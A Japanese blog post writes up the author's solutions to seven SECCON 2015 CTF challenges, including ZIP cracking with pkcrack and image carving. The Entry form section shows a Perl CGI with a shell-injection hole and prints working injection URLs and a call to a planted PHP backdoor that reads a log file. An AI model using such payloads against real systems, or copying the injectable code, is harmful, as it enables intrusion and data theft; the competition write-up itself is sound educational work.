


SECCON 2015 オンラインCTFに参加しました。

解いた問題は以下の７つの問題です。合計で600点獲得できました。

- Start SECCON CTF (Exercises) 50点
- Unzip the file (Crypto) 100点
- Connect the server (Web/Network) 100点
- Command-Line Quiz (Unknown) 100点
- Entry form (Web/Network) 100点
- Steganography 1 (Stegano) 100点
- Last Challenge (Thank you for playing) (Exercises) 50点

忘れないうちにWrite-upを書いておきました。

<!--more--> **Start SECCON CTF (Exercises) 50点**

これは練習用の問題です。暗号表がありますので１文字づつ比較して復号しました。

**Unzip the file (Crypto) 100点**

問題にunzipというファイルが添付されています。ダウンロードしてfileで確認したところZIPファイルのようです。 拡張子を.zipにして、unzipすると暗号化されていました。中身のファイル名だけはわかります。

```
$ unzip unzip.zip
Archive: unzip.zip
[unzip.zip] backnumber08.txt password: (わからないのでエンターキーで）
skipping: backnumber08.txt incorrect password
skipping: backnumber09.txt incorrect password
skipping: flag incorrect password
$

```

いろいろ調べたところ、ZIPに含まれている暗号化されていないPlainTextがあれば解読できるpkcrackというツールがあるようです。 取り急ぎdebianにインストールしました。

```
$ cd pkcrack-1.2.2/
$ cd src
$ make

```

でも問題にはbacknumber08.txtやbacknumber09.txtは含まれていません。 ファイル名でWeb検索したところ、SECCONのメールマガジンのバックナンバーが同じファイル名でした。 これをダウンロードして、さらにzipしたものも作成します。

```
$ zip backnumber08.zip backnumber08.txt
$ zip backnumber09.zip backnumber09.txt
$ ./pkcrack -C ./unzip.zip -c backnumber09.txt -p backnumber09.txt -P backnumber09.zip -d xxxx.zip
Files read. Starting stage 1 on Sun Dec  6 13:56:16 2015
Generating 1st generation of possible key2_4850 values...done.
Found 4194304 possible key2-values.
Now we're trying to reduce these...
Done. Left with 3342 possible Values. bestOffset is 24.
Stage 1 completed. Starting stage 2 on Sun Dec  6 13:56:27 2015
Ta-daaaaa! key0=270293cd, key1=b1496a17, key2=8fd0945a
Probabilistic test succeeded for 4831 bytes.
Ta-daaaaa! key0=270293cd, key1=b1496a17, key2=8fd0945a
Probabilistic test succeeded for 4831 bytes.
Ta-daaaaa! key0=270293cd, key1=b1496a17, key2=8fd0945a
Probabilistic test succeeded for 4831 bytes.
Ta-daaaaa! key0=270293cd, key1=b1496a17, key2=8fd0945a
Probabilistic test succeeded for 4831 bytes.
Ta-daaaaa! key0=270293cd, key1=b1496a17, key2=8fd0945a
Probabilistic test succeeded for 4831 bytes.
Ta-daaaaa! key0=270293cd, key1=b1496a17, key2=8fd0945a
Probabilistic test succeeded for 4831 bytes.
Stage 2 completed. Starting zipdecrypt on Sun Dec  6 13:58:07 2015
Decrypting backnumber08.txt (5315a01322ab296c211eecba)... OK!
Decrypting backnumber09.txt (83e6640cbec32aeaf10ed1ba)... OK!
Decrypting flag (34e4d2ab7fe1e2421808bab2)... OK!
Finished on Sun Dec  6 13:58:07 2015
$

```

これでパスワードが外れたZIPファイルができました。

```
$ unzip xxxx.zip

```

早速unzipして、無事zipファイルを解凍することができました。 生成されたflagsファイルをみると、またZIPファイルでしたのでこれも解凍したところ、XMLファイルがたくさんできました。 ディレクトリやファイルの内容から見てWORDのファイルのようです。 flagsの拡張子を.docxにしてWindowsPCで開いたところ、白い文字でflagが書かれていました。

**Connect the server (Web/Network) 100点**

サーバー名:10000　というヒントのみ。 とりあえず、サーバーにポート番号10000で接続してみました。

```
$ telnet xxxxx.xxx.seccon.jp 10000
Trying xxx.xxx.xxx.xxx...
Connected to xxxx.xxx.seccon.jp.
Escape character is '^]'.
CONNECT 300
Welcome to SECCON server.
The server is connected via slow dial-up connection.
Please be patient, and do not brute-force.
login:
Login timer timed out.
Thank you for your cooperation.
HINT: It is already in your hands.
Good bye.
Connection closed by foreign host.
$

```

文字がゆっくり表示されます。CONNECT 300はアナログモデムをイメージしているのでしょう。 問題のジャンルとしてはWeb/Networkなので、ネットワークに流れているデータも見てみると、これ以外のものが流れているようにみえました。 試しに、Webブラウザでもアクセスしたところ・・・。  何かフラグのようなデータが流れています。１文字表示して、１文字消してを繰り返しているので画面で見えなかったのです。 この文字を拾うとフラグがでてきました。

**Command-Line Quiz (Unknown) 100点**

これはただひたすら知っているUNIXコマンドを答えていくものです。

```
CaitSith login: root
Password:
$ cat stage1.txt
What command do you use when you want to read only top lines of a text file?
Set your answer to environment variable named stage1 and execute a shell.
$ stage1=$your_answer_here sh
If your answer is what I meant, you will be able to access stage2.txt file.
$ stage1=head sh
$ cat stage2.txt
What command do you use when you want to read only bottom lines of a text file?
Set your answer to environment variable named stage2 and execute a shell.
$ stage2=$your_answer_here sh
If your answer is what I meant, you will be able to access stage3.txt file.
$ stage2=tail sh
$ cat stage3.txt
What command do you use when you want to pick up lines that match specific patterns?
Set your answer to environment variable named stage3 and execute a shell.
$ stage3=$your_answer_here sh
If your answer is what I meant, you will be able to access stage4.txt file.
$ stage3=grep sh
$ cat stage4.txt
What command do you use when you want to process a text file?
Set your answer to environment variable named stage4 and execute a shell.
$ stage4=$your_answer_here sh
If your answer is what I meant, you will be able to access stage5.txt file.
$ stage4=cat sh
：（思考錯誤の繰り返し）
：
$ stage4=sed sh
$ cat stage5.txt
cat: can't open 'stage5.txt': Operation not permitted
$ stage4=awk sh
$ cat stage5.txt
OK. You reached the final stage. The flag word is in flags.txt file.
flags.txt can be read by only one specific program which is available
in this server. The program for reading flags.txt is one of commands
you can use for processing a text file. Please find it. Good luck. ;-)
$ awk '{print $0}' flags.txt
awk: flags.txt: Operation not permitted
$ join flags.txt
sh: join: not found
$ uniq flags.txt
uniq: can't open 'flags.txt': Operation not permitted
$ sed 's/s//' flags.txt
OK. You have read all .txt file. The flag word is shown below.
SECCON{CaitSith@AQUA}
$

```

この問題はこれで良かったのでしょうか・・？

**Entry form (Web/Network) 100点**

あるCGIを叩くとフォームがでます。どうもインジェクションの問題のようです。 直接GETパラメタにいろんな値を設定してもエラーらしきものは出ません。エラーチェックしていないのかそれともわざと何も出していないのか。 試しに、cgiのパスを指定しないでアクセスすると、あっ・・・  丸見えでございます。CGIのバックアップと思われる.bakファイルがあるのでこれをクリックするとcgiのソースが見えました。

```
　：
if($q->param("mail") ne '' && $q->param("name") ne '') {
open(SH, "|/usr/sbin/sendmail -bm '" . $q->param("mail") . "'" );
print SH "From: xxxx.xxxxx\@seccon.jp\nTo: ".$q->param("mail")."\nSubject: from SECCON Entry Form\n\nWe received your entry.\n";
close(SH);
open(LOG, ">>log"); ### param("mail")."\t".$q->param("name")."\n";
close(LOG);
：

```

本番もこれに近いものだろうと思われます。logファイルにflagがあるというヒントもありますね。 こういう書き方ですから、こうやればいいのでしょうか？

```
http://entryform.pwn.seccon.jp/register.cgi?name=d&action=Send&mail=%27+|+ls+-alR+%23

```

ビンゴでございます。ディレクトリの内容が表示できました。

```
.:
total 2016
dr-xr-xr-x 3 cgi    cgi     4096 Dec  1 22:29 .
drwxr-xr-x 4 root   root    4096 Dec  1 22:57 ..
-r--r--r-- 1 root   root     221 Dec  5 15:18 .htaccess
dr-xr-xr-x 2 root   root    4096 Dec  1 21:52 SECRETS
-r---w---- 1 apache cgi  2028064 Dec  5 23:33 log
-r--r--r-- 1 root   root    1132 May 15  2015 logo.png
-r-xr-xr-x 1 cgi    cgi     1631 Dec  5 20:32 register.cgi
-r--r--r-- 1 root   root    1583 Dec  1 22:25 register.cgi_bak
./SECRETS:
total 16
dr-xr-xr-x 2 root root 4096 Dec  1 21:52 .
dr-xr-xr-x 3 cgi  cgi  4096 Dec  1 22:29 ..
-r--r--r-- 1 root root   42 Dec  1 21:52 backdoor123.php
-r--r--r-- 1 root root   19 Dec  1 21:52 index.html

```

.htaccessも見ちゃいます。

```
http://entryform.pwn.seccon.jp/register.cgi?name=d&action=Send&mail=%27+|+cat+.htaccess+%23
Order allow,deny
Deny from all
Satisfy All
#AuthUserFile /var/www/.htpasswd
#AuthGroupFile /dev/null
#AuthName "entryform.pwn"
#AuthType Basic
#Require valid-user
#Order deny,allow

```

ここには大したものはありませんでした。 同様にlogファイルを見ようとしたところ、残念ながらパーミッションで見えませんでした。 気になるのは、SECRETにあるbackdoor123.phpです。この内容をみてみます。  はあ？ これはバックドアじゃないですか！ これをこんな感じに使えばいいのかな？

```
http://entryform.pwn.seccon.jp/SECRETS/backdoor123.php?cmd=cat+..%2Flog

```

Webブラウザから実行すると。

```
**FLAG**
SECCON{Glory_will_shine_on_you.}
********
skipfish@example.com	Smith
skipfish@example.com	Smith
skipfish@example.com	Smith
：
：

```

flagが取れました。

**Steganography 1 (Stegano) 100点**

MrFusion.gpjbというファイルが添付されていました。なんとなく、GIF、PNG、JPEG、BMPの頭文字をとったような拡張子です。 ファイルの中身をバイナリエディターでざっとみたところ、よく見かける画像系のヘッダがあちこちにあり、複数の画像データを結合したファイルのようです。 一般的な画像系のファイルヘッダの先頭のバイトは以下のようになっています。

```
JPEG　 FF D8
PNG　　89 50 4E 47
GIF　　47 49 46 38
BMP　　42 51

```

このバイト列をバイナリエディタで検索してマークをつけ、そのアドレスをメモしました。

```
00000000 GIF
00001B1F PNG
000025FF JPG
00006808 BMP
002A983E GIF
002AA300 PNG
002AAAB9 JPG
002AEEBB BMP
00551EF1 GIF
00552860 PNG
00553212 JPG
005577C5 BMP
007FA7FB GIF
007FB2BE PNG
007FBEDC JPG
007FFF21 最後のデータ

```

添付ファイルからこのアドレスに沿ってデータを抜き出すプログラムをCで作成しました。 いつものように超適当に作ったものですが、GitHubにコミットしておきました。 [https://github.com/kanpapa/ctf/blob/master/ctffile.c](https://github.com/kanpapa/ctf/blob/master/ctffile.c "ctffile.c") このプログラムを実行して作成されたファイルout0.bin〜out14.binを以下のスクリプトでリネームしました。

```
#!/bin/sh
./a.out
mv out0.bin out0.gif
mv out1.bin out1.png
mv out2.bin out2.jpg
mv out3.bin out3.bmp
mv out4.bin out4.gif
mv out5.bin out5.png
mv out6.bin out6.jpg
mv out7.bin out7.bmp
mv out8.bin out8.gif
mv out9.bin out9.png
mv out10.bin out10.jpg
mv out11.bin out11.bmp
mv out12.bin out12.gif
mv out13.bin out13.png
mv out14.bin out14.jpg

```

これらの画像ファイルで表示される画像を重ね合わせてflagが取れました。

**Last Challenge (Thank you for playing) Exercises 50点**

最後のおまけ問題です。暗号表がありますので１文字づつ比較して復号しました。

今回が３回目のCTFですが、依然として600点〜700点をうろうろしています。 途中トラックボールが故障したり、VMwareのdebianがハングアップしたりなどいろいろありました。 また画像系のツールを準備していなかったのでQRコードなど手がつけられなかったのが残念です。 他の参加者の皆様のWrite-Upを参考にして次回に備えたいと思います。運営の皆様もお疲れさまでした。
